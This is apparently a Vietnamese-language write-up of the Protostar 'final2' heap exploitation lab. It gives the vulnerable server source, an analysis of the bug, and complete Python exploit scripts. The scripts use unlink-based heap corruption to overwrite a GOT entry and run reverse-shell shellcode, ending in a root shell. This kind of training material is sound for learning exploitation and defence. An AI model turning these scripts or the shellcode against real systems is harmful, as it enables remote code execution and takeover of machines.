



# **final2**
## Source code
```
#include "../common/common.c"
#include "../common/malloc.c"

#define NAME "final2"
#define UID 0
#define GID 0
#define PORT 2993

#define REQSZ 128

void check_path(char *buf)
{
  char *start;
  char *p;
  int l;

  /*
  * Work out old software bug
  */

  p = rindex(buf, '/');
  l = strlen(p);
  if(p) {
      start = strstr(buf, "ROOT");
      if(start) {
          while(*start != '/') start--;
          memmove(start, p, l);
          printf("moving from %p to %p (exploit: %s / %d)\n", p, start, start < buf ?
          "yes" : "no", start - buf);
      }
  }
}

int get_requests(int fd)
{
  char *buf;
  char *destroylist[256];
  int dll;
  int i;

  dll = 0;
  while(1) {
      if(dll >= 255) break;

      buf = calloc(REQSZ, 1);
      if(read(fd, buf, REQSZ) != REQSZ) break;

      if(strncmp(buf, "FSRD", 4) != 0) break;

      check_path(buf + 4);     

      dll++;
  }

  for(i = 0; i < dll; i++) {
                write(fd, "Process OK\n", strlen("Process OK\n"));
      free(destroylist[i]);
  }
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  get_requests(fd);

}

```
Một số hàm có trong chương trình:
- The rindex() function returns a pointer to the last occurrence of the character c in the string s.
- char *strstr(const char *haystack, const char *needle);
  - The strstr() function finds the first occurrence of the substring needle in the string haystack.  The terminating '\0' characters are not compared.
- void *memmove(void *dest, const void *src, size_t n);
  - The  memmove()  function  copies n bytes from memory area src to memory area dest.  The memory areas may overlap: copying takes place as though the bytes in src are first copied into a temporary array that does not overlap src or dest, and the bytes are then copied from the temporary array to dest.

=>
- Lắng nghe ở cổng 2993
- get_requests():
  - vòng lặp 255 lần
    - đọc buf từ client, nếu size != REQSZ(128) hoặc 4 chữ đầu khác "FSRD" thì sẽ break
    - gọi check_path()
- check_path():
  - tìm string bắt đầu bằng "/" cuối cùng (1)
  - tìm vị trí của "/" trước string "ROOT" (2)
  - copy string (1) vào vị trí (2)

=> Xuất hiện lỗ hổng ở bước tìm vị trí (2) ```while(*start != '/') start--;```, nếu trước string "ROOT" trong buf mà không có "/", vòng while sẽ giảm start về địa chỉ của những chunk heap trước đó.

## Tools
- gdb
- python
- netcat

## Phân tích chương trình
Dùng gdb để debug final1:
- set follow-fork-mode child
- set disassembly-flavor intel

Dùng ```nc 127.0.0.1 2993``` để connect tới server, gửi thử 3 đoạn string đạt yêu cầu của chương trình:
```
user@protostar:~$ nc 127.0.0.1 2993
FSRDaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/ROOTaaaaaaaaaaaFSRDaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/ROOTaaaaaaaaaaaFSRDaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa/ROOTaaaaaaaaaaa
```

Quan sát gdb ở sau hàm calloc và ở hàm free, =>:
- Tuy source code có vấn đề (địa chỉ trả về của hàm calloc không được lưu trong mảng destroylist) nhưng file thực thi vẫn free đúng:



- Mỗi chunk có kích thước 0x88 bytes, bao gồm:
  - 0x8 bytes metadata
  - 0x80 (128) bytes data

## Exploit

Sử dụng kĩ thuật heap overflow như trong [heap3](https://gitlab.com/cs_hoang_hai_long/week9/-/tree/main/protostar/heap/heap3)
  
Sử dụng shellcode reversed shell như final0:
```
shellcode = "\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"
```
Để shellcode ở chunk đầu tiên, dịch phải 8 bytes(tránh bị ghi đè khi free), => địa chỉ shellcode là 0x804e010 (0x0804e008 + 8):
```
import socket
import struct

shellcode = "\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

s = socket.socket()
s.connect(("127.0.0.1", 2993))

chunk1 = "FSRD" + "a"*4 + shellcode + "/ROOT"
s.send(chunk1 + "a"*(128 - len(chunk1)))
```
Vì để lợi dụng được unlink macro thì shellcode phải ngắn, do đó ta làm một shellcode phụ để chuyển hướng đến shellcode chính:
```
  push 0x804e00c
  ret

=> \x68\x0C\xE0\x04\x08\xC3
```
Để shellcode phụ ở chunk 2, ngay sau "FSRD", => địa chỉ shellcode phụ là 0x0804e098 (0x0804e090 + 8)

Để ý thấy sau hàm free chương trình có call <write@plt>, tương tự như heap3, tìm địa chỉ của hàm write trong bảng GOT: 0x804d41c


**Fail attempt #1:**

Thay đổi metadata của chunk 3, tính toán tương tự như heap3, ta có**Fail attempt #1:** script:

```
import socket
import struct

shellcode = "\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

s = socket.socket()
s.connect(("127.0.0.1", 2993))

chunk1 = "FSRD" + "a"*4 + shellcode + "/ROOT"
chunk1 = chunk1 + "a"*(128 - len(chunk1))

shellcode_phu = "\x68\x0c\xe0\x04\x08\xc3"
chunk2 = "FSRD" + "a"*4 + shellcode_phu + "a"*109 + "/ROOT"

chunk3 = "FSRD" + "ROOT" + "a"*95 + "/" + "\x01\x01\x01\x01" + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "a"*4 + "\x10\xd4\x04\x08" + "\x98\xe0\x04\x08"
s.send(chunk1 + chunk2 + chunk3 + "\n")


s.recv(1024)
s.recv(1024)
s.recv(1024)
s.close()
```
Chạy script trên xong, heap sẽ như sau:
- chunk 1 chứa shellcode
- chunk 2 chứa shellcode phụ
- chunk 3 có metadata là prevsize = -4, size = -4, fakechunk, ... được setup như heap3.



Tuy nhiên, bị segmentation fault ngay lần free(chunk 1), lý do:
- chunk 3 để bit cuối field: size là 0, để fake chunk trước đang free
- Khi free(chunk 1) thì hàm free() kiểm tra chunk 2 có phải vùng đang free hay không bằng cách check bit cuối field size của chunk 3. 

=> chunk 2 bị unlink nhầm => segmentation fault.

**Final attempt**

Sửa lại script, thay vì unlink backward như heap3, ta sẽ unlink forward (khi free(chunk1) sẽ unlink chunk2):

script:
```
import socket
import struct

shellcode = "\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

s = socket.socket()
s.connect(("127.0.0.1", 2993))

chunk1 = "FSRD" + "a"*4 + shellcode + "a"*8 + "/ROOT"

shellcode_phu = "\x68\x0c\xe0\x04\x08\xc3"
chunk2 = "FSRD" + "a"*4 + shellcode_phu + "a"*89 + "ROOT" + "/" + "a"*4 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff" + "\x10\xd4\x04\x08" + "\x98\xe0\x04\x08"

s.send(chunk1 + chunk2 + "\n")

s.recv(1024)
s.recv(1024)
s.close()
```

Giải thích:
- Quan sát heap trước khi free(chunk1):

  

- Khi free(chunk1) thì hàm free() kiểm tra xem next chunk có đang free hay không bằng cách kiểm tra bit cuối field size của "next chunk of next chunk"
- Nếu để field size của "next chunk" là -4, hàm free() sẽ tính sai địa chỉ "next chunk của next chunk":

  

- Do đó ý nghĩa của \xfc\xff\xff\xff thứ nhất của chunk 2 là để bit cuối của field: size bằng 0 => kích hoạt unlink forward, chunk 2 sẽ bị unlink.

Kết quả:
```
user@protostar:~$ nc -l -p 4444
whoami
root
```


# References
